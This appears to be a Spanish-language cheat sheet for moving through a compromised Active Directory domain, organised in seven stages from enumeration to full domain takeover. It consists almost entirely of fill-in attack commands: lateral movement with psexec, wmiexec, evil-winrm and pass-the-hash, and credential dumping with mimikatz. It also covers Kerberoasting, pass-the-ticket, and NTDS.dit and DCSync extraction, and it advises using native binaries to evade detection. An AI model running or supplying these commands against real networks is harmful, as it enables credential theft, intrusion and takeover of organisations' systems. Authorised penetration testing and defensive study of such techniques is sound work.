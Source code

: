 ## **1️⃣ Verificación de Acceso Inicial**

📌 _Objetivo:_ Confirmar acceso y obtener información básica del usuario comprometido.

```powershell
whoami /all                          # Ver información de usuario y grupos
net user <usuario> /domain            # Ver detalles del usuario en el dominio
nltest /dsgetdc:<dominio>             # Obtener controlador de dominio (DC)
systeminfo                            # Ver información del sistema
hostname                              # Ver nombre del host
```

---

## **2️⃣ Enumeración del Dominio**

📌 _Objetivo:_ Identificar estructuras clave del AD.

```powershell
net group "Domain Admins" /domain      # Ver quiénes son los administradores
net groups /domain                     # Listar todos los grupos
net user /domain                        # Listar todos los usuarios
nltest /domain_trusts                   # Ver confianza entre dominios
Get-ADGroupMember -Identity "Administrators" # Enumerar miembros con PowerView
```

**🔹 Living Off The Land:**

```powershell
wmic useraccount get name,sid         # Listar usuarios y sus SIDs
```

---

## **3️⃣ Enumeración de Máquinas y Recursos Compartidos**

📌 _Objetivo:_ Identificar hosts clave en el dominio.

```powershell
net view /domain:<dominio>             # Listar equipos en el dominio
net share                              # Ver recursos compartidos
arp -a                                 # Ver equipos en la red
Get-NetComputer -Domain <dominio>       # Enumerar equipos con PowerView
nmap -p 139,445 --script smb-enum-shares <IP>  # Buscar recursos compartidos
```

**🔹 Living Off The Land:**

```powershell
dir \<IP>\C$                           # Intentar acceso a C$ (requiere permisos)
```

---

## **4️⃣ Movimiento Lateral**

📌 _Objetivo:_ Expandir acceso en la red.

### 🔹 Con credenciales comprometidas:

```powershell
runas /netonly /user:<dominio\usuario> cmd  # Ejecutar cmd con otro usuario
tscon <ID> /dest:console                     # Tomar sesión RDP activa
psexec \\<IP> -u <dominio\usuario> -p <password> cmd
wmiexec.py <dominio>/<usuario>:<password>@<IP>
# Si tienes NTLM Hash
evil-winrm -i <IP> -u <usuario> -H <NTLM-Hash>
pth-winexe -U <usuario>%<NTLM-Hash> //<IP> cmd.exe
```

**🔹 Living Off The Land:**

```powershell
wmic /node:<IP> process call create "cmd.exe /c whoami"
```

---

## **5️⃣ Privilege Escalation en Windows**

📌 _Objetivo:_ Elevar privilegios en un host comprometido.

### 🔹 Si tienes acceso RDP:

```powershell
whoami /priv                               # Ver privilegios del usuario
icacls C:\ruta\archivo.exe                 # Ver permisos de archivos
# con acceso a RDP
winPEAS.bat          # Escaneo de escalación en Windows
Seatbelt.exe         # Recolecta información para escalación
# Dumping creds
mimikatz.exe
sekurlsa::logonpasswords
lsadump::sam
```

**🔹 Living Off The Land:**

```powershell
findstr /si password *.txt                 # Buscar contraseñas en archivos
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run  # Buscar persistencia
```

---

## **6️⃣ Ataques a Active Directory**

📌 _Objetivo:_ Comprometer el dominio entero.

### 🔹 Kerberoasting (Extracción de Tickets de Servicio)

```powershell
setspn -T <dominio> -Q */*                  # Buscar SPNs registrados
GetUserSPNs.py <dominio>/<usuario>:<password> -dc-ip <IP> -request
```

### 🔹 Pass-the-Hash (Si tienes NTLM)

```powershell
echo <hash> > hash.txt
mimikatz
sekurlsa::pth /user:<usuario> /domain:<dominio> /ntlm:<hash>
```
### 🔹 Pass-the-Ticket (Si tienes un TGT)

```powershell
mimikatz
kerberos::list
kerberos::ptt <ticket.kirbi>
```

`mimikatz kerberos::list kerberos::ptt <ticket.kirbi>`
**🔹 Living Off The Land:**

```powershell
rundll32.exe keymgr.dll, KRShowKeyMgr       # Ver credenciales guardadas
```

---

## **7️⃣ Dominación Total del AD**

📌 _Objetivo:_ Obtener control total del dominio.

### 🔹 Dumping del NTDS.dit (Base de Datos del AD)

```powershell
vssadmin list shadows                      # Buscar copias de seguridad
secretsdump.py <dominio>/<usuario>@<IP> -just-dc
```

### 🔹 DCSync Attack (Si eres Domain Admin)

```powershell
reg save HKLM\System system.hive
reg save HKLM\Security security.hive
mimikatz
lsadump::dcsync /domain:<dominio> /user:<usuario>
```

---

**📝 Notas:**

- Siempre verifica tus permisos antes de ejecutar comandos avanzados.
- Prioriza el uso de binarios nativos para evadir detección.
- Documenta cada acción para futuras auditorías.

---

Este cheat sheet está diseñado para ayudarte a moverte dentro de un entorno Active Directory comprometido sin depender de herramientas externas.
